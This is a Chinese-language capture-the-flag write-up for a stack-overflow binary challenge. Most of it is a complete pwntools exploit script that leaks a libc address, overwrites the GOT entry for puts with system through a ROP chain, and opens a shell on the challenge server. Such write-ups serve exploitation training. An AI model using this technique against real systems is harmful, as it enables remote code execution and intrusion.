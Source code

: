 #main

保护除了nx都没有开
典型的栈溢出题目
溢出处主要是

    000000000000000A buf             db 10 dup(?)            ; base 10
    +0000000000000000  s              db 8 dup(?)
    +0000000000000008  r              db 8 dup(?)
还有这里

    puts("stack:");
      return read(0, &buf, 0x20uLL);
主要就是溢出的字节数太少了
可以选择栈转移pivot或者别的奇技淫巧
这里有一个很好的技巧
利用的数rbp字段每次都会保存
具体payload如下：

```python
from pwn import *
context.log_level = "debug"
#p = process("./task_main")

p = remote("202.112.51.184", 30002)
elf = ELF("./task_main")
libc = ELF("/libc.so.6")

pop_rdi_ret = 0x400693
pop_bx_bp_12131415_ret = 0x40068A
vuln_call = 0x400611
bss = 0x601060
libc_init = 0x400670
ret = 0x4004ae
payload = []
payload += [pop_rdi_ret, elf.got["read"], elf.plt["puts"]] # leak
payload += [pop_bx_bp_12131415_ret, 0, 1, elf.got["read"], 0, elf.got["puts"], 8, 0x400670, 0,0,0,0,0,0,0] # read(0, got[puts], 8)
payload += [pop_rdi_ret, bss, elf.plt["puts"]] # system("/bin/sh")

def push(data):
    pl = "B" * 10
    pl += p64(data)
    pl += p64(vuln_call)
    once("A" * 0x1, pl)

def once(bss, stack):
    p.recvuntil("bss:\n")
    p.send(bss)
    p.recvuntil("stack:\n")
    p.send(stack)



push(payload[-1])
for i in xrange(1, len(payload)):
    push(payload[-i-1])

#gdb.attach(p, "b *0x40068A\nc")

pl = "B" * 10
pl += p64(0)
pl += p64(ret)
once("/bin/sh\x00".ljust(0x10, "C"), pl)

t = p.readline()[:6]
puts = u64(t + "\x00\x00")
base = puts - libc.symbols["read"]
log.info("base: %lx", base)
system = base + libc.symbols["system"]

p.send(p64(system))

p.interactive()
p.close()
```

思路就是利用通用rop，改写got表还有一些调用约定了，没啥好说的